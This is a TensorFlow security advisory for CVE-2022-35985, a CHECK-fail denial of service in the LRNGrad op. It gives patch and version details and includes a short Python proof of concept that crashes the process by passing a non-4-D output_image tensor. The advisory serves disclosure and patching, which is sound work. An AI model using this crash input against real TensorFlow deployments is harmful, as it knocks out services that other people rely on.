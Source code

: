 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-116.md
## TFSA-2022-116: `CHECK` fail in `LRNGrad`

### CVE Number
CVE-2022-35985

### Impact
If `LRNGrad` is given an `output_image` input tensor that is not 4-D, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
depth_radius = 1
bias = 1.59018219
alpha = 0.117728651
beta = 0.404427052
input_grads = tf.random.uniform(shape=[4, 4, 4, 4], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2033)
input_image = tf.random.uniform(shape=[4, 4, 4, 4], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2033)
output_image = tf.random.uniform(shape=[4, 4, 4, 4, 4, 4], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2033)
tf.raw_ops.LRNGrad(input_grads=input_grads, input_image=input_image, output_image=output_image, depth_radius=depth_radius, bias=bias, alpha=alpha, beta=beta)
```

### Patches
We have patched the issue in GitHub commit [bd90b3efab4ec958b228cd7cfe9125be1c0cf255](https://github.com/tensorflow/tensorflow/commit/bd90b3efab4ec958b228cd7cfe9125be1c0cf255).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
